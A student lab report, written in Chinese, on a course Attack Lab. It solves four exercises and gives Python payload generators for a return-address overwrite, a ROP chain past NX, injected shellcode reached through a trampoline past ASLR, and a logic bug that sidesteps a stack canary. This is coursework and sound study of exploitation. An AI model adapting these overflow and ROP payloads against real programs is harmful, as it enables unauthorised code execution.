




# 栈溢出攻击实验报告

**姓名**:汪逸凡

**学号**：2024201633

## 实验目的

本实验旨在让参与者理解栈溢出攻击的基本原理，学会如何检测潜在的栈溢出漏洞，并掌握基本的防护措施。通过反汇编分析、GDB 动态调试以及编写 Python 脚本构造攻击载荷（Payload），深入理解函数调用栈、ROP（面向返回编程）、ASLR（地址空间布局随机化）以及 Canary 栈保护机制。

## 题目解决思路与过程

### Problem 1: 基础栈溢出 (Basic Stack Overflow)

#### 1. 分析

通过 objdump -d problem1 查看反汇编代码，发现程序中存在一个未被调用的函数 func1 (地址 0x401216)，其功能是输出 "Yes!I like ICS!"。

分析 func 函数发现：

- 局部变量缓冲区位于 `%rbp - 0x8`。
- 函数使用了 `strcpy` 将长字符串复制到该缓冲区，且未检查长度。
- 为了覆盖返回地址（Return Address），需要填充的字节数为：`8 bytes (Buffer)` + `8 bytes (Saved RBP)` = **16 bytes**。

#### 2. 解决方案 (Payload)

编写 Python 脚本生成攻击载荷 `ans1.txt`。我们构造 16 字节的垃圾数据来填平栈帧，紧接着拼接 `func1` 的地址，以覆盖原始返回地址。

```
import struct

# 目标地址：func1 (0x401216)
target_addr = 0x401216

# 偏移量计算：Buffer(8) + Saved RBP(8) = 16 bytes
padding = b'A' * 16

# 构造 Payload (使用小端序 <Q)
payload = padding + struct.pack('<Q', target_addr)

with open("ans1.txt", "wb") as f:
    f.write(payload)
print("Payload generated for Problem 1")
```

#### 3. 实验结果

成功劫持控制流并调用 `func1`，输出如下：


### Problem 2: 绕过 NX 保护 (Return Oriented Programming)

#### 1. 分析

本题开启了 **NX (No-Execute)** 保护，意味着栈上的数据不可被当作代码执行。我们需要利用程序自带的代码片段（Gadgets）进行攻击。

- **目标**：跳转到 `func2` (`0x401216`)。
- **限制**：`func2` 会检查第一个参数 `%edi` 是否等于 `0x3f8` (1016)。
- **ROP 构造**：在 x64 架构下，第一个参数通过 `%rdi` 寄存器传递。我们需要找到一个 `pop %rdi; ret` 的 Gadget。
  - 在反汇编中找到 `pop_rdi` 函数包含该 Gadget，地址为 `0x4012c7`。
  - 攻击链设计：`Padding` -> `pop %rdi 地址` -> `0x3f8` -> `func2 地址`。

#### 2. 解决方案 (Payload)

构造 ROP 链，利用 Gadget 将参数弹入寄存器，再跳转至目标函数。

```
import struct

# 关键地址
pop_rdi_ret = 0x4012c7  # Gadget: pop %rdi; ret
target_func = 0x401216  # func2 地址
arg_value   = 0x3f8     # 参数: 1016

# 偏移量：依然是 16 字节
padding = b'A' * 16

# 构造 ROP 链
rop_chain = struct.pack('<Q', pop_rdi_ret) + \
            struct.pack('<Q', arg_value) + \
            struct.pack('<Q', target_func)

payload = padding + rop_chain

with open("ans2.txt", "wb") as f:
    f.write(payload)
print("Payload generated for Problem 2")
```

#### 3. 实验结果

成功通过参数检查并进入 Level 2：

### Problem 3: 绕过 ASLR (Shellcode Injection)

#### 1. 分析

本题开启了 **ASLR**，栈地址随机化，无法硬编码栈地址。但通过分析汇编 (`p3.asm`) 发现漏洞利用点：

- **Info Leak**：`func` 函数将当前的 `%rsp` 保存到了全局变量 `saved_rsp` 中。
- **Trampoline (跳板)**：函数 `jmp_xs` (`0x401334`) 的逻辑是跳转到 `saved_rsp + 0x10` 的位置。
- **计算**：在 `func` 中，`saved_rsp + 0x10` 恰好指向输入缓冲区 (`memcpy` 的目标地址 `rbp-0x20`) 的起始位置。
- **策略**：将 Shellcode 放在 Payload 的最开头，然后覆盖返回地址为 `jmp_xs`。函数返回时跳板会将 PC 指针指回我们的 Shellcode。

#### 2. 解决方案 (Payload)

编写 Shellcode 调用 `func1(114)`，并利用跳板函数执行它。

```
import struct

# 关键地址
jmp_xs_addr = 0x401334   # 跳板函数
# 目标: 调用 func1(114) -> mov rdi, 114; mov rax, 0x401216; call rax
shellcode = (
    b"\x48\xc7\xc7\x72\x00\x00\x00"  # mov rdi, 0x72 (114)
    b"\x48\xc7\xc0\x16\x12\x40\x00"  # mov rax, 0x401216 (func1)
    b"\xff\xd0"                      # call rax
)

# 缓冲区大小计算:
# Buffer (32 bytes) + Saved RBP (8 bytes) = 40 bytes total padding needed
padding_len = 40 - len(shellcode)

# Payload 结构: [Shellcode] + [Padding] + [jmp_xs_addr]
payload = shellcode + b'A' * padding_len + struct.pack('<Q', jmp_xs_addr)

with open("ans3.txt", "wb") as f:
    f.write(payload)
print("Payload generated for Problem 3")
```

#### 3. 实验结果

Shellcode 成功执行，幸运数字验证通过：

### Problem 4: Canary 保护机制分析 (Logic Exploit)

#### 1. 分析 (Canary 机制)

本题无法使用传统的栈溢出，因为程序启用了 **Stack Canary** 保护。在反汇编代码 `p4.asm` 中可以清晰看到该机制的实现：

- 设置 Canary (Setup):

  在 func 函数头部，程序从 fs 段寄存器获取随机值并存入栈中。

  ```
  136c: 64 48 8b 04 25 28 00    mov    %fs:0x28,%rax   ; 从 TCB 获取随机 Canary
  1375: 48 89 45 f8             mov    %rax,-0x8(%rbp) ; 存入栈帧底部
  ```

- 检查 Canary (Check):

  在函数返回前，再次读取并比对。

  ```
  140a: 48 8b 45 f8             mov    -0x8(%rbp),%rax ; 取出栈中的 Canary
  140e: 64 48 2b 04 25 28 00    sub    %fs:0x28,%rax   ; 与系统原值相减
  1417: 74 05                   je     141e            ; 如果结果为0(相等)，通过检查
  1419: e8 b2 fc ff ff          call   ... <__stack_chk_fail@plt> ; 否则报错自杀
  ```

#### 2. 解决方案 (Payload)

由于无法覆盖 Canary，我们转而利用程序的逻辑漏洞。

func 函数中有一个循环逻辑：Result = Input - 0xfffffffe。

后续检查逻辑要求：Result == 1 且 Input == -1。

在计算机补码表示中，0xffffffff 即为 -1。

因此，只需在交互过程中输入 -1 即可通过检查。

- **操作步骤**：
  1. 运行 `./problem4`。
  2. 回答前两个问题（随意输入）。
  3. 当提示 "give me enough yuanshi" 时，输入 **`-1`**。
  4. 等待程序完成约 42 亿次循环计算。

#### 3. 实验结果

通过逻辑漏洞绕过检查，获得高分提示：


## 思考与总结

通过本次 Attack Lab 的四个实验，我深入理解了二进制程序在运行时的内存布局和安全机制：

1. **冯·诺依曼架构的“双刃剑”**：数据和指令在内存中是混居的。Problem 1 和 Problem 3 证明了如果我们能把数据写入栈并诱导 CPU 跳转过去，数据就会变成指令被执行。
2. **攻防的演进**：
   - 为了防御最简单的 Shellcode 注入（P1），系统引入了 **NX**（数据不可执行）。
   - 攻击者进化出了 **ROP**（P2），利用现有的代码片段绕过 NX。
   - 为了防御固定地址攻击，系统引入了 **ASLR**。
   - 攻击者利用 Info Leak 和 Trampoline（P3）再次绕过 ASLR。
   - 编译器引入 **Canary**（P4）作为最后一道防线，但如果代码逻辑本身存在漏洞（如 P4 的整数溢出/逻辑错误），内存保护也无能为力。

这次实验让我明白，安全不仅仅是依赖编译器或操作系统的保护机制，更需要程序员在编写代码时具备严谨的逻辑和安全意识。

## 参考资料

1. Randal E. Bryant and David R. O'Hallaron, *Computer Systems: A Programmer's Perspective*, 3rd Edition.
2. Attack Lab Writeup, CS:APP3e, Carnegie Mellon University.
3. CTF Wiki: Stack Overflow & ROP (https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/stack-intro/).